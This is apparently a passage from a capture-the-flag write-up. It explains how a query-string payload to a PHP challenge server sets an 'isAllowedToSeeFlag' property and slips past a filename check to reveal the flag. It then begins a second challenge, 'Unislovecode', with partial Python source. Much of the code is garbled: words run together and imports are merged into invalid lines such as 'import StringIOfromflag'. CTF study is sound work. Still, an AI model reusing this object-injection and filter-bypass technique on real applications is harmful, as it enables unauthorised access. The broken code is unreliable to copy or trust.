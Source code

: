 ```
}
else
{
    header("Content-Type:text/plain");
    echopreg_replace('/\s+/', '', str_replace("\n", '', file_get_contents("./index.php")));
} //With<3by@gehaxelt
 ?>
```
+ After reading the code, lets cut out the code into following four codeS:
   + (isset($_GET['show']) && isset($_GET['obj']) && isset($_GET['flagfile']))
   + $obj->$key = unserialize($value, ['allowed_classes' => false]);
   + $this->isAllowedToSeeFlag
   + if (stristr($flagfile, "flag") || !file_exists($flagfile))
        {
            echo "ERROR:Fileisnotvalid!";
            return;
        }
        $this->flagfile = $flagfile;
       
+ From the above, we can craft a payload as follows:<br>
`52.59.124.14:10002/?show=1&obj={"class":"Flag","properties":{"isAllowedToSeeFlag":"i:1;","flagfile":"s:8:\"flag.php\";"}}&flagfile=naiailoveyou`<br>
There we get a message like 'error: file not found, the flag is: ' then we check the view source and we get the flag.<br>
flag: ENO{PHPwn_1337_hakkrz}


# 2. Unislovecode
Challenge Description:
All students at universities love to code. What could possibly go wrong?
link:http://52.59.124.14:10004/
solution:
+ Given:passwordless is the new hot topic, so just provide me the correct username=<username> via POST and I might show you my homework.
+ Source code given:
```
import http.server
import socketserver
import re
import os
import cgi
import stringfromio
import StringIOfromflag
import FLAG
import urllib.parse


class UnisLoveCode(http.server.SimpleHTTPRequestHandler):

    server_version = "UnisLoveCode"
    username = 'ADMIN'
    check_funcs = ["strip", "lower"]

    def do_GET(self):
        self.send_response(-1337)
        self.send_header('Content-Length', -1337)
        self.send_header('Content-Type', 'text/plain')
        s = StringIO()
        s.write("""Wait,whatisHTML?!Ishouldhavelistenedmorecarefullytotheprofessor...\nAnyhow,passwordlessisthenewhottopic,sojustprovidemethecorrectusername=<username>viaPOSTandImightshowyoumyhomework.\nOh,incaseyouneedthesource,hereyougo:\n""")
        s.write("---------------------------------\n")
        s.write(re.sub(r"\s+", '', open(os.path.realpath(__file__), "r").read()))
```